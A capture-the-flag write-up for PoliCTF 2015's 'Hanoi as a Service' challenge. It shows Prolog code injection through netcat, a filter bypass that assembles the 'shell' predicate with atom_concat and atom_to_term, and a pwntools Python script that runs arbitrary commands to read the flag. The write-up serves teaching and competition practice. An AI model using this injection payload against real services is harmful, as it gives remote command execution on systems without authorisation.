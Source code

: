 ```yaml
---
title: "PoliCTF 2015 - Hanoi as a Service (Pwnable 50)"
header:
  overlay_image: /assets/images/polictf2015/towerofhanoi.jpg
  overlay_filter: 0.5
tags:
  - polictf2015
  - writeup
  - pwn
---
```


Remote prolog application to solve the Tower of Hanoi problem is vulnerable to
remote code execution by injecting Prolog code.

## Challenge Description

#### Points

50

#### Description

```
Check out our shiny new HaaS platform!

nc haas.polictf.it 80
```

## Solution

Let's investigate what this service does:

```shell
$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
3
* Move top disk from a to b
* Move top disk from a to c
* Move top disk from b to c
* Move top disk from a to b
* Move top disk from c to a
* Move top disk from c to b
* Move top disk from a to b
```

Looks like it's a prgoram to solve the Tower of Hanoi problem. Let's explore
further and see if we can introduce an error:

```shell
$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
')
ERROR: Prolog initialisation failed:
ERROR: Syntax error: End of file in quoted string
ERROR: hanoi('))
ERROR: ** here **
ERROR:
```

So it looks like we're dealing with a Prolog application and that the statement
is in the form: `hanoi(<user_input>)`. Great! It's injectable! Let's try spawning
a shell with some Prolog system interaction features!

```shell
$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
), shell('id'). %
Nope.
$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
), shell('id'). %
Nice try...
```

Okay, there's some input validation there. So let's work some Prolog magic by
splitting up the 'shell'. Now, Prolog isn't like your normal programming
language and it works on the concepts more familiar to a Scheme/Lisp programmer.
We can use three predicates: `call`, `atom_concat` and `atom_to_term` to bypass the
validation and execute our arbitrary command.

```shell
$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
1),atom_concat('sh','ell',Atom), atom_to_term(Atom, Term, []), call(Term, 'id').%
* Move top disk from a to b
uid=1001(ctf) gid=1001(ctf) groups=1001(ctf)
```

Now all we have to do is write our exploit:

```python
from pwn import *
import sys

command = sys.argv[1] or ""

exp_string = "1),atom_concat('sh','ell', Atom), atom_to_term(Atom, Term, []), call(Term, '%s').%%" % command

r = remote("haas.polictf.it", 80)
r.sendline(exp_string)
print r.recvall()
```

Explore the file system, and extract our flag!

```shell
$ python exploit.py "cat /home/ctf/haas/jhknsjdfhef_flag_here"
[+] Opening connection to haas.polictf.it on port 80: Done
[+] Recieving all data: Done (150B)
[*] Closed connection to haas.polictf.it port 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
* Move top disk from a to b
flag{Pr0gramm1ng_in_l0g1c_1s_c00l}
```

Flag: **flag{Pr0gramm1ng\_in\_l0g1c\_1s\_c00l}**
